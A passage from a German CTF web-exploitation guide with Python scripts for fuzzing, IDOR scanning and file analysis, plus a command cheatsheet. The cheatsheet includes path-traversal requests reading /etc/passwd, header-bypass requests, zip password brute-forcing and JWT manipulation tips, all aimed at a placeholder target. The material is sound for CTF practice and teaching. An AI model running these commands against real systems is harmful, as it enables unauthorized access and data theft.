session = requests.Session()

# Login und Session aufrechterhalten
login_data = {"username": "admin", "password": "password"}
response = session.post("https://target.ctf/login", data=login_data)

# Cookies aus HTTP Toolkit übernehmen
session.cookies.update({
    "session": "abc123xyz",
    "auth_token": "eyJhbGciOiJIUzI1NiJ9..."
})

# Alle weiteren Requests nutzen automatisch die Session
response = session.get("https://target.ctf/admin/files")
print(response.text)

# Datei herunterladen
file_response = session.get(
    "https://target.ctf/download?id=1",
    stream=True
)
with open("downloaded.bin", "wb") as f:
    for chunk in file_response.iter_content(chunk_size=8192):
        f.write(chunk)
```

### 8.2 Automatisiertes Directory-Fuzzing

```python
import requests
from concurrent.futures import ThreadPoolExecutor

TARGET = "https://target.ctf"
WORDLIST = "/path/to/wordlist.txt"
HEADERS = {"Cookie": "session=abc123"}

def check_path(path):
    url = f"{TARGET}/{path.strip()}"
    try:
        r = requests.get(url, headers=HEADERS, 
                        allow_redirects=False, timeout=5)
        if r.status_code not in [404, 400]:
            print(f"[{r.status_code}] {url} ({len(r.content)} bytes)")
            return url, r.status_code, r.content
    except:
        pass
    return None

with open(WORDLIST) as f:
    paths = f.readlines()

with ThreadPoolExecutor(max_workers=20) as executor:
    results = list(executor.map(check_path, paths))

found = [r for r in results if r is not None]
```

### 8.3 Automatische Dateianalyse

```python
import subprocess
import os

def analyze_file(filepath):
    """Vollständige Dateianalyse für CTF-Challenges"""
    
    print(f"\n{'='*50}")
    print(f"Analysiere: {filepath}")
    print('='*50)
    
    # 1. Echter Dateityp
    result = subprocess.run(["file", filepath], capture_output=True, text=True)
    print(f"[file] {result.stdout.strip()}")
    
    # 2. Strings nach Flag-Mustern
    result = subprocess.run(["strings", filepath], capture_output=True, text=True)
    for line in result.stdout.splitlines():
        if any(keyword in line.lower() for keyword in 
               ["flag", "ctf", "key", "secret", "password"]):
            print(f"[strings] {line}")
    
    # 3. Exiftool Metadaten
    result = subprocess.run(["exiftool", filepath], capture_output=True, text=True)
    print(f"[exiftool]\n{result.stdout}")
    
    # 4. Binwalk
    result = subprocess.run(["binwalk", filepath], capture_output=True, text=True)
    print(f"[binwalk]\n{result.stdout}")
    
    # 5. Hex-Dump der ersten 64 Bytes
    with open(filepath, "rb") as f:
        header = f.read(64)
    print(f"[hex] {header.hex()}")

analyze_file("downloaded_file.bin")
```

### 8.4 IDOR-Scanner

```python
import requests
import concurrent.futures

def scan_idor(base_url, id_range, session_cookie=None):
    """Scannt einen Bereich von IDs auf zugängliche Ressourcen"""
    
    headers = {}
    if session_cookie:
        headers["Cookie"] = session_cookie
    
    found = []
    
    def check_id(i):
        url = f"{base_url}/{i}"
        try:
            r = requests.get(url, headers=headers, 
                           allow_redirects=False, timeout=5)
            if r.status_code == 200:
                print(f"[+] Gefunden: {url} ({len(r.content)} bytes)")
                # Automatisch herunterladen
                with open(f"idor_{i}.bin", "wb") as f:
                    f.write(r.content)
                return (i, url, r.content)
        except Exception as e:
            pass
        return None
    
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        results = list(executor.map(check_id, range(*id_range)))
    
    return [r for r in results if r is not None]

# Beispiel: IDs 1-500 scannen
results = scan_idor(
    "https://target.ctf/files",
    (1, 501),
    session_cookie="session=abc123"
)
```

---

## 9. Entscheidungsbaum: Welches Tool wann?



---

## 10. Häufige CTF-Muster & ihre Lösungsstrategien

### Muster-Übersicht

| Muster | Erkennungszeichen | Primäres Tool | Vorgehen |
|---|---|---|---|
| **Flag in robots.txt** | Disallow-Einträge mit ungewöhnlichen Pfaden | Browser / curl | Pfad direkt aufrufen |
| **Flag in HTML-Kommentar** | `<!-- -->` im Quellcode | Firefox DevTools | STRG+U, suchen |
| **Flag in HTTP-Header** | Ungewöhnliche Response-Header | HTTP Toolkit | Response-Header Tab |
| **Flag in Cookie** | Base64-kodierter Cookie-Wert | HTTP Toolkit / Python | Dekodieren mit CyberChef |
| **Verstecktes Verzeichnis** | Keine Links, aber existiert | ffuf / Gobuster | Directory-Fuzzing |
| **Backup-Datei** | `.bak`, `.old`, `~` Endungen | ffuf mit Extensions | Erweiterungen fuzzen |
| **Flag in Metadaten** | Bild-Download ohne sichtbaren Inhalt | exiftool | Alle Metadaten prüfen |
| **Eingebettete Datei** | Datei größer als erwartet | binwalk | Extraktion mit `-e` |
| **LSB-Steganographie** | PNG/BMP ohne erkennbare Auffälligkeit | zsteg | `zsteg -a` |
| **Steghide-Versteck** | JPEG mit ungewöhnlicher Größe | steghide | `steghide extract` |
| **Path Traversal** | `?file=`, `?page=`, `?include=` Parameter | ffuf / curl | `../` Traversal testen |
| **IDOR** | Numerische IDs in URLs | Python / ffuf | ID-Bereich scannen |
| **JWT-Manipulation** | Bearer-Token oder Cookie mit `eyJ` | Python / jwt_tool | Algorithm-None oder Brute-Force |
| **.git exponiert** | `/.git/HEAD` erreichbar | git-dumper | Repository rekonstruieren |
| **Source Map exponiert** | `.js.map` Dateien erreichbar | curl / Browser | Quellcode extrahieren |

### Detaillierte Lösungsstrategien

#### Strategie: Versteckter Download-Endpunkt

Wenn eine Seite einen Download-Button hat, der eine Datei liefert, aber der Endpunkt nicht dokumentiert ist:

1. HTTP Toolkit öffnen und Firefox-Traffic aufzeichnen
2. Download-Button klicken und den Request in HTTP Toolkit beobachten
3. Request-URL, Parameter und Header notieren
4. Mit ffuf den Parameter-Wert fuzzen (z.B. `?id=FUZZ`)
5. Alle gefundenen Dateien herunterladen und mit `file` + `binwalk` analysieren

#### Strategie: Datei mit falscher Erweiterung

```bash
# 1. Echter Typ bestimmen
file suspicious.jpg
# Output: suspicious.jpg: Zip archive data

# 2. Umbenennen und öffnen
cp suspicious.jpg suspicious.zip
unzip suspicious.zip

# 3. Falls verschlüsselt: Brute-Force
fcrackzip -u -D -p /path/to/rockyou.txt suspicious.zip
```

#### Strategie: Mehrstufige Versteckung

Viele CTF-Challenges kombinieren mehrere Techniken. Ein typischer Ablauf:

1. `robots.txt` → Pfad `/secret_files/` gefunden
2. Directory-Fuzzing in `/secret_files/` → `data.png` gefunden
3. `exiftool data.png` → Kommentar: "Das Passwort ist im Bild"
4. `zsteg -a data.png` → Base64-kodierter String gefunden
5. CyberChef → Base64-Dekodierung → ZIP-Passwort
6. `steghide extract -sf data.png -p <passwort>` → Flag

---

## 11. Referenz: Wichtige HTTP-Statuscodes

| Code | Bedeutung | CTF-Relevanz |
|---|---|---|
| **200 OK** | Ressource existiert und ist zugänglich | Direkter Treffer |
| **301/302** | Permanente/Temporäre Weiterleitung | Folge dem Redirect |
| **304** | Not Modified (Cache) | Ggf. Cache-Bypass nötig |
| **400** | Bad Request | Parameter-Format prüfen |
| **401** | Unauthorized | Authentifizierung erforderlich |
| **403** | Forbidden | Ressource existiert, aber kein Zugriff → Header-Bypass versuchen |
| **404** | Not Found | Ressource existiert nicht |
| **405** | Method Not Allowed | Andere HTTP-Methode versuchen |
| **500** | Internal Server Error | Oft Hinweis auf Injection-Schwachstelle |

> **Wichtig:** Ein `403 Forbidden` bedeutet, dass die Ressource **existiert**. Dies ist oft wertvoller als ein `200 OK` auf einer leeren Seite, da es auf eingeschränkte, aber vorhandene Inhalte hinweist.

---

## 12. Cheatsheet: Schnellreferenz-Befehle

### Reconnaissance

```bash
# Metadateien prüfen
curl -s https://target.ctf/robots.txt
curl -s https://target.ctf/sitemap.xml
curl -s https://target.ctf/.git/HEAD
curl -s https://target.ctf/.env

# Response-Header analysieren
curl -I https://target.ctf/
curl -D - https://target.ctf/ -o /dev/null
```

### Enumeration

```bash
# Schneller erster Scan
ffuf -u https://target.ctf/FUZZ -w ~/SecLists/Discovery/Web-Content/common.txt -mc 200,301,302,403 -c

# Mit Erweiterungen
ffuf -u https://target.ctf/FUZZ -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt -e .php,.txt,.bak,.zip -mc 200,301 -c

# Gobuster schnell
gobuster dir -u https://target.ctf -w ~/SecLists/Discovery/Web-Content/common.txt -x php,txt,bak -t 50

# Parameter-Fuzzing
ffuf -u "https://target.ctf/page?FUZZ=test" -w ~/SecLists/Discovery/Web-Content/burp-parameter-names.txt -mc 200 -fs 1337
```

### Dateianalyse

```bash
# Komplette Schnellanalyse
file DATEI && strings DATEI | grep -i flag && exiftool DATEI && binwalk DATEI

# Steganographie-Schnellcheck
steghide info DATEI.jpg
zsteg -a DATEI.png

# Archiv-Inhalt
unzip -l DATEI.zip
binwalk -e DATEI
```

### HTTP-Manipulation

```bash
# Header-Bypass
curl -H "X-Forwarded-For: 127.0.0.1" https://target.ctf/admin
curl -H "X-Original-URL: /admin" https://target.ctf/

# Verschiedene HTTP-Methoden
for method in GET POST PUT DELETE PATCH OPTIONS HEAD TRACE; do
    echo -n "$method: "
    curl -s -o /dev/null -w "%{http_code}" -X $method https://target.ctf/resource
    echo
done

# Path Traversal
curl "https://target.ctf/download?file=../../../etc/passwd"
curl "https://target.ctf/download?file=..%2F..%2F..%2Fetc%2Fpasswd"
```

### Python-Schnipsel

```python
# Session mit Cookies
import requests
s = requests.Session()
s.cookies.update({"session": "WERT_AUS_HTTP_TOOLKIT"})
r = s.get("https://target.ctf/protected")
print(r.text[:500])

# Datei herunterladen
r = s.get("https://target.ctf/download?id=1", stream=True)
with open("out.bin", "wb") as f:
    f.write(r.content)

# Base64 dekodieren
import base64
print(base64.b64decode("SGVsbG8gV29ybGQ=").decode())
```

---

## Referenzen

[1]: https://ctf101.org/web-exploitation/overview/ "CTF101 – Web Exploitation Overview"
[2]: https://learn.microsoft.com/en-us/windows/wsl/install "Microsoft – How to install Linux on Windows with WSL"
[3]: https://github.com/ffuf/ffuf "GitHub – ffuf: Fuzz Faster U Fool"
[4]: https://github.com/danielmiessler/SecLists "GitHub – SecLists by Daniel Miessler"
[5]: https://infosecwriteups.com/tryhackme-mr-robot-ctf-full-write-up-f28d83777dde "InfoSec Writeups – TryHackMe Mr. Robot CTF Full Write-Up"
[6]: https://blog.sentry.security/abusing-exposed-sourcemaps/ "Sentry Blog – Abusing Exposed Sourcemaps"
[7]: https://captainnoob.medium.com/source-code-disclosure-via-exposed-git-folder-d22919c590a2 "Medium – Source Code Disclosure via Exposed .git Folder"
[8]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/04-Review_Old_Backup_and_Unreferenced_Files_for_Sensitive_Information "OWASP WSTG – Review Old Backup and Unreferenced Files"
[9]: https://www.acceis.fr/ffuf-advanced-tricks/ "ACCEIS – ffuf Advanced Tricks"
[10]: https://www.hackingloops.com/gobuster-ffuf-cheat-sheet/ "HackingLoops – Gobuster & ffuf Cheat Sheet"
[11]: https://benheater.com/my-ctf-methodology/ "0xBEN – My CTF Methodology"
[12]: https://httptoolkit.com/ "HTTP Toolkit – Intercept, debug & build with HTTP"
[13]: https://infosecwriteups.com/some-common-steganography-tools-for-ctfs-92e3de93f141 "InfoSec Writeups – Common Steganography Tools for CTFs"
[14]: https://0xrick.github.io/lists/stego/ "0xRick – Steganography: A list of useful tools and resources"
[15]: https://thegrayarea.tech/steganography-ctf-cheat-sheet-b8ed69111857 "The Gray Area – Steganography CTF Cheat Sheet"
[16]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md "PayloadsAllTheThings – File Inclusion / Path Traversal"
[17]: https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/special-http-headers.html "HackTricks – Special HTTP Headers"
[18]: https://medium.com/@abdelaazizbenafghoul/bypassing-extension-and-mime-type-filters-in-file-upload-attacks-d099dc7cb4c6 "Medium – Bypassing Extension and MIME-Type Filters in File Upload Attacks"
[19]: https://3.python-requests.org/user/advanced/ "Python Requests – Advanced Usage"
